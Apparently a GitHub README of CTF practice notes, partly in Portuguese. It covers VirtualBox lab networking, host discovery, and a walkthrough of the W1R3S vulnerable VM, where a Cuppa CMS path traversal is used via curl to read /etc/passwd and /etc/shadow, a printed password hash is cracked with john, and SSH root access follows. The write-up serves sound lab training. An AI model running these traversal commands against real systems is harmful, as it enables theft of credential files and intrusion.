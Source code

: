 
# CTF 30 days or 30 maq VM to hacker.
Playlist
https://www.youtube.com/watch?v=xnCS8fYfrjs&list=PLHBDBcFA_l_WBcUJWf8cp5BaPsUkquRQU

## Virtual Box Setupt : Creating your virtual network lab 

- Tolls => Properties => NATNetworks
General Options:
Name: <VMnet8> 'Created a name for your network'
IPv4 Prefix: 10.10.10.0/24 'Conf. address rang'
Apply.

## Parrot / Kali et. 
- Settings => Network
Adpter 1 => Enable Network Adapter:
Attached to: Nat Network
Name: VMnet8 'The Network you created'
Adpter Type: choose your adpter.
Promiscuous Mode: Deny ' Just allow if you might to test wifi-network'
check Cable Connected.
Ok.
You need to settup all VM for this lab the same 'NAT'your criate. 
Read morde About natwork on VM.

- https://www.nanoshots.com.br/2015/08/virtualbox-configurando-o-acesso-ssh.html
- https://www.virtualbox.org/manual/ch06.html

- Find Target on your VM 'Attacker'

# !!! Click Connection Informatio on icon Network or use ifconfig !!! You see your IP and ranger, in my case I configured to 10.10.10.0/24

- Nmap -sn <10.10.10.0/24>
- fping -a -g <10.10.10.0/24>
 -a (activi) -g (ranger)
- arp-scan --localnet
- netdiscover -r <10.10.10.0/24>
- nbtscan -r <10.10.10.0/24>
  


## Documentação das etapas de resolução do CTF ##

## 05 w1r3s

1. Reconnaissance (Recon)
Perform an Nmap scan to identify open ports.
Command Examples:
bash

nmap -sV -v -Pn <host>  
nmap -sC -A -p- -Pn <host>  
Scan Results:
bash





***********************************************************

Service Info:  
- Hosts: The, JOY.localdomain, 127.0.1.1, JOY  
- OS: Linux  
- CPE: cpe:/o:linux:linux_kernel

***********************************************************
  
2. Enumeration
FTP Enumeration
FTP allows anonymous login.
Search for files in the FTP directory for anything useful.
Files Found:
diff
//////////////////
dirb / gobuster / nikto

http://10.10.10.12/administrator/installation/
Files Found:
Cuppa CMS

********************************
searchsploit cuppa 
locate  past path.
cat <paht>








4. Exploiting 



# curl -s --data-urlencode urlConfig=../../../../../../../../../etc/passwd http://10.10.10.12/administrator/alerts/alertConfigField.php?

# curl -s --data-urlencode urlConfig=../../../../../../../../../etc/shadow http://10.10.10.12/administrator/alerts/alertConfigField.php?

search for pwd.

copy 
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
vi <wires>
john wires.


ssh <usr>@<host>

sudo -l

root
4. Privilege Escalation
Dont need


root  




                                                              







   
